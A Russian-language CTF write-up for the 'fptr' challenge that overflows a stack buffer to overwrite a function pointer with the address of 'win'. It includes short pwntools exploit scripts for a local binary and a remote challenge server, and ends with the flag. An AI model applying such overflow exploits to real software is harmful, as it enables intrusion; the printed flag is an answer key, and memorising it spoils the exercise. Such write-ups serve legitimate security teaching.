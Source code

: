 
# Сайт: forkbomb.ru 
# Автор: @korniltsev (Anatoly Korniltsev)
# Название: fptr
# Сложность: Easy

Данное задание очень похоже на предыдущее ходом решения, однако, здесь мы затираем переменную, которая сожержит адрес функции. Посмотрим исходный код программы: <br />
![image](https://github.com/user-attachments/assets/316ac8ee-6871-4119-baf2-3c6d5c22d2bf)

Здесь все просто, считываем буфер, после того, как буфер считан, выполнится инструкция `call edx`, которая и вызовет функцию по указанному адресу: <br />
![image](https://github.com/user-attachments/assets/b1b2b4bb-6fd4-430f-9172-894eaec4c161) <br />
Введем 4 буквы `a` и посмотрим на состояние стека: <br />
![image](https://github.com/user-attachments/assets/1667b659-cc59-4523-8f05-f55eef968786) <br />
При таком вводе, адрес не переписывается, поэтому переполним буфер и запишем новый адрес. Посмотрим как адрес у функции `win`: <br />
![image](https://github.com/user-attachments/assets/76e938ff-5656-4813-8fbc-8ef5e46d9155) <br />
Адрес у данной функции `0x401172`. Напишем скрипт и посмотрим получится ли получить локальный флаг: <br />

```py
from pwn import * 

p = process('./fptr')
win_addr = 0x401172
p.sendline(b"AAAAAAAA" + p64(win_addr))
p.interactive()
```
![image](https://github.com/user-attachments/assets/3c1fb947-80b9-4342-8877-bdba66f5c8e5) <br />
Получить локальный флаг удалось, теперь получим настоящий флаг: <br>
```py
from pwn import *

p = remote('109.233.56.90', 11601)
win_addr = 0x401172
p.sendline(b"AAAAAAAA" + p64(win_addr))
p.interactive()
```
![image](https://github.com/user-attachments/assets/8a9d397a-944e-4fab-ad4a-c0f2d95bfd25)

Ответ: `spbctf{9c4ef124c0624b2ddbe6eb58f8be045a}`



